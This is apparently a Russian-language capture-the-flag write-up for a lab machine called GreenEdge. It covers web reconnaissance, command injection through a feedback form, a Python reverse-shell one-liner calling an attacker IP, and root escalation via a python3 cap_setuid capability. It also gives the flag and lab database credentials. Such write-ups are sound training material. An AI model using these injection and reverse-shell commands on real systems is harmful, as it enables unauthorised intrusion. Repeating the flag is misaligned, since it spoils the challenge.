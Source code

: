# Задача: GreenEdge
## Цель: Найти содержимое CODEBY{...}
## IP 192.168.2.219 (VPN)
## Дата: 23.10.2025

---

## 🎯 Исходная информация

**Описание машины**:

> GreenEdge недавно развернула обновлённую версию своего внутреннего портала. Система предназначена для облегчения коммуникации между отделами и улучшения рабочих процессов. Некоторые пользователи сообщили о нестабильной работе отдельных компонентов.

**Открытые порты**:

- **22/tcp** - SSH
- **80/tcp** - HTTP

---

## 🔍 Ход работы

### [20:35] - Этап 1: Разведка

**Веб приложение на порту 80:**

- Home (`/index.php`) - Главная страница
  ![[Pasted image 20251023204137.png]]
- About (`/about.php`) - Информация о компании
  ![[Pasted image 20251023204035.png]]
- Contact (`/contact.php`) - Контактные данные
  ![[Pasted image 20251023204110.png]]
- **Feedback** (`/feedback.php`) - Форма обратной связи ⚠️
  ![[Pasted image 20251023204205.png]]

**Анализ**:

- Форма обратной связи - единственный интерактивный элемент.
- Исходный код страницы не содержит полезной информации.

**Сканирование директорий**:

```bash
gobuster dir -u http://192.168.2.219 -w /путь/к/wordlist.txt -o /путь/к/output/файлу -t 50 -x html,php,js,css
```

![[Pasted image 20251024181050.png]]

**Результаты**:

![[Pasted image 20251024182546.png]]

- Найден файл `config.php` - возвращает пустой HTML
- Директория `assets/` - содержит только стили и мусорный php файл
  ![[Pasted image 20251023210755.png]]

## ⚡ [21:09] - Эксплуатация уязвимостей

### Тестирование формы Feedback

**XSS-тесты**:
- ```<script>alert("XSS")</script> ```
    ![[Pasted image 20251023211102.png]]
- `"><script>alert("xss")`
    ![[Pasted image 20251023211211.png]]

✅ **Результат:** XSS защищены

**SQLi-тесты**:

- `SELECT * FROM users;`
    ![[Pasted image 20251023211325.png]]
- `*`
    ![[Pasted image 20251023211439.png]]
- `ls`
    ![[Pasted image 20251023211505.png]]
- `/home/*`
    ![[Pasted image 20251023211756.png]]
- `*; ls`
    ![[Pasted image 20251023212754.png]]

🔍 **Результат:** Неожиданный вывод - список файлов в директории.

**Исследование RCE**:

```bash
*                     # Вывод файлов
ls                    # Не работает
/home/*         # Список пользователей
*; ls               # ✅ RCE обнаружено.
```

### Получение Reverse Shell

**Эксплойт**:

```bash
*; export RHOST="192.168.124.79";export RPORT=9901;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![[Pasted image 20251023213006.png]]

![[Pasted image 20251023213047.png]]

**Результат**:

- ✅ Успешное подключение Reverse Shell
- Пользователь: `www-data`
  ![[Pasted image 20251023213123.png]]

### Стабилизация оболочки

```bash 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![[Pasted image 20251023213334.png]]

## 🚀 [21:34] - Эскалация привелегий

### Анализ возможностей

```bash
getcap / -r 2>/dev/null
```

**Найдено**:

```bash
/usr/bin/python3.10 = cap_setuid+ep
```

  ![[Pasted image 20251023213445.png]]

### Эксплуатация Capabilities

```python
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

  ![[Pasted image 20251023213647.png]]

**Результат**: ✅ Успешное получение root-прав.

---

## 🏆 Поиск флага

**Локации:**

- `/root/last_part` - вторая часть флага
- `/home/charley/first_part` - первая часть флага

**Собранный флаг:**  
`CODEBY{FR0M_F33DB4CK_70_R007_1337}`

## 💡 Выводы

- Уязвимость в форме обратной связи позволяла выполнение команд
- Неправильная санитизация ввода привела к RCE
- Избыточные capabilities Python3 позволили эскалацию привилегий
- Флаг разделен на две части в разных директориях
- Обнаружены открытые учетные данные БД в файле `config.php`
- Присутствуют риски горизонтального перемещения через повторное использование паролей

## Дополнительное исследование - анализ `config.php`

### Обнаружение конфигурационного файла

**В процессе составления отчета** было выявлено упущение: файл `config.php`, обнаруженный на этапе разведки, не был исследован после получения доступа к системе.

**Местоположение**: `/var/www/html/config.php`

**Содержимое файла**:

```php
<?php
$DB_HOST = 'localhost';
$DB_USER = 'root';
$DB_PASS = 'SuperSecret123';
$DB_NAME = 'internal_data';
?>
```

### Анализ найденных учетных данных

**Полученные данные**:

- **Хост БД**: `localhost`
- **Пользователь**: `root`
- **Пароль:** `SuperSecret123`
- **База данных**: `internal_data`

![[Pasted image 20251024190600.png]]

### Попытки использования учетных данных

**Тестирование доступа**:

1. **Подключение к MySQL/MariaDB**:
	- Сервис БД не установлен в системе
	- Команды `mysql`, `mariadb` отсутствуют
2. **Проверка повторного использования паролей:**
```bash
   su root                               # Пароль не подошел
   ssh root@localhost           # Сервис SSH активен, но пароль неверен
```
3. **Поиск точек входа в веб-приложение**:
	- Дополнительные формы авторизации не обнаружены
	- Скрытые административные панели отсутствуют

### Выводы по дополнительному исследованию

- **Обнаружены чувствительные данные**: учетные данные БД в открытом виде
- **Непосредственная эксплуатация невозможна**: сервис БД отсутствует
- **Риск повторного использования паролей**: пароль `SuperSecret123` может использоваться в других системах GreenEdge
- **Рекомендация**: проверить данный пароль в других сервисах компании
